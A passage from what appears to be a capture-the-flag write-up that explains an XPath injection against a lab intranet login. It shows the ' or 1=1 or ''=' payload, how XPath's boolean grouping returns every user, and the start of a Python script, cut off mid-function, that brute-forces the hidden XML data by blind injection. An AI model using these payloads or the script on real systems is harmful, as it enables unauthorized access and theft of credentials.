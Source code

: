 ```

string(//user[name/text()='+VAR_USER+' and password/text()='+VAR_PASSWD+']/account/text())

```

That says to get the `user` node which has a child nodes `name` and `password`, and checks that the text values of those notes match the input username and input password. Then, it selects the `account` child node from that `user`, and returns the text as a string.

This basic XPATH injection works because of how XPATH handles grouping of multiple `or` and `and`. When I submitted the username of `' or 1=1 or ''='`, the above node selection becomes:

```

//user[name/text()='' or 1=1 or ''='' and password/text()='notthepassword']

```

XPath will group those booleans as:

```

//user[(name/text()='' or 1=1) or (''='' and password/text()='notthepassword')]

```

Which becomes:

```

//user[(false or true) or (true and false)]
//user[true or false]
//user[true]

```

and thus returns all users.

### XPath Brute Passwords

I also now have a way to test boolean statements. If I replace `1=1` with something I don’t know, if it returns the list of users, then it must have evaluated to true. If it doesn’t, then false. In fact, I can dump the entire XML document. Some manual checks showed that there’s only one node at the root. The script does the rest:

```

#!/usr/bin/env python3

import requests
import string
import sys

s = requests.session()
#s.proxies = {'http':'http://127.0.0.1:8080'}
s.proxies = {'http':'http://10.10.10.200:3128'}
keys = []

def xpath_req(test):
    resp = s.post('http://172.31.179.1/intranet.php', data={'Username':f"' or {test} or ''='", 'Password':'0xdf'})
    return 'Rita' in resp.text

def get_text(item, alpha=string.ascii_lowercase+string.ascii_uppercase):
    global keys
    for key in keys:
        if xpath_req(f"{item}='{key}'"):
            print(key, end='', flush=True)
            return key
```
